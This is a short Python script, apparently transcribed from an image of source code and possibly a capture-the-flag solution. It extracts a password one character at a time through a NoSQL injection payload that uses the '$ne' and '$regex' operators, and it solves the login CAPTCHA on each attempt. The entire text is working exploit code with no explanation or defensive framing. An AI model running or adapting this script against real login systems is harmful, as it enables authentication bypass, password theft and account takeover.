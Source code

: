 ```

if __name__ == '__main__':
    base_char = string.ascii_lowercase + string.digits
    tmp_pwd = ''

    while True:
        flag = True
        for c in base_char:
            if flag:
                while True:
                    # print(c)
                    get_vertify_img()
                    code = get_vertify_code('vertify.jpg')
                    payload = "username[$ne]=toto&password[$regex]=^{}{}.*&vertify={}".format(tmp_pwd, c, code)

                    url = login_url.format(payload)
                    resp = login(url)

                    if 'username or password incorrect' in resp:
                        break
                    if 'Nice' in resp:
                        tmp_pwd += c
                        flag = False
                        print('password:', tmp_pwd)
                        break
            else:
                break
```







